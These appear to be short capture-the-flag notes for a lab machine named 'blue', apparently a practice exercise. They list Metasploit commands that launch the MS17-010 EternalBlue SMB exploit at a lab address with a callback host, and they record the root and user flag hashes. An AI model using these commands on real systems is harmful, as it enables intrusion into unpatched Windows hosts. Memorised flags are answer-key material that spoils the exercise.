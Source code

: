 # blue hmmm..... EternalBlue????
# lets try a smb exploit from metasploit


## [EXPLOIT]
    use windows/smb/ms17_010_eternalblue
    set rhosts 10.10.10.40
    set lhost 10.10.14.19


## [Priv Esc]
    NONE: got in as admin


## [FLAGS]
    ff548eb71e920ff6c08843ce9df4e717 C:\users\administrator\desktop\root.txt
    4c546aea7dbee75cbd71de245c8deea9 C:\users\haris\desktop\user.txt

